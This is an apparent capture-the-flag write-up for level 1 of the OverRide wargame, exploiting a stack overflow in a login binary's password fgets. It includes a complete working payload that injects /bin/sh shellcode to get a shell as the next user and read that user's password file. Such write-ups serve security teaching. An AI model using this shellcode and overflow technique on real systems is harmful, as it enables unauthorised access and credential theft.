 # Level 1

Before us we have a binary which represents an admin login prompt.
First, it asks us for the username which it `fgets` into a global variable called `a_user_name`, and if it matches `dat_wil`, we can input the password that's checked to be admin but it's just a troll.
The password would then be read into a 64 byte buffer with `fgets`, but here fgets will read up to 256 bytes, so we can overflow.

Using our trusty [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), we find that the offset is 80.

```shell
(gdb) r < <(echo 'dat_wil'; sleep .2; python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"')
Starting program: /home/users/level01/level01 < <(echo 'dat_wil'; sleep .2; python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"')
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

Now that we know the offset of the overflow we'll need the address of the password buffer in memory. To accomplish that we can check the return value of the second `fgets` within `ltrace`. 
Note: Some form of address randomization is employed here, so the address is subject to changes
```shell
level01@OverRide:~$ ltrace -e 'fgets' ./level01 < <(echo 'dat_wil'; sleep .2; echo 'deeznuts') 1>/dev/null
fgets("dat_wil\n", 256, 0xf7fcfac0)                                                                = 0x0804a040
fgets("deeznuts\n", 100, 0xf7fcfac0)                                                               = 0xffffd6cc
+++ exited (status 1) +++
```

Let's now inject that address after our 28 bytes [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) and 52 bytes of padding.
```shell
level01@OverRide:~$ (echo 'dat_wil'; sleep .5; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + "\xcc\xd6\xff\xff"'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
[censored]
```

## Failed method

TODO: maybe delete this

Instead of ltrace I wanted to get the value of the password buffer with gdb but the address didn't work in the shell, possible cause is some relocation stuff going on as the addresses aren't the same and change between ssh sessions.

```shell
(gdb) disas main
[...]
   0x08048579 <+169>:   lea    0x1c(%esp),%eax
   0x0804857d <+173>:   mov    %eax,(%esp)
   0x08048580 <+176>:   call   0x80484a3 <verify_user_pass>
[...]
(gdb) b verify_user_pass
Breakpoint 1 at 0x80484a8
(gdb) r < <(echo 'dat_wil'; sleep .2; python -c 'print "B"*80')
Starting program: /home/users/level01/level01 < <(echo 'dat_wil'; sleep .2; python -c 'print "B"*80')
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:

Breakpoint 1, 0x080484a8 in verify_user_pass ()
(gdb) finish
Run till exit from #0  0x080484a8 in verify_user_pass ()
0x08048585 in main ()
(gdb) x/s $esp+0x1c
0xffffd6ac:      'B' <repeats 80 times>, "\n"
```
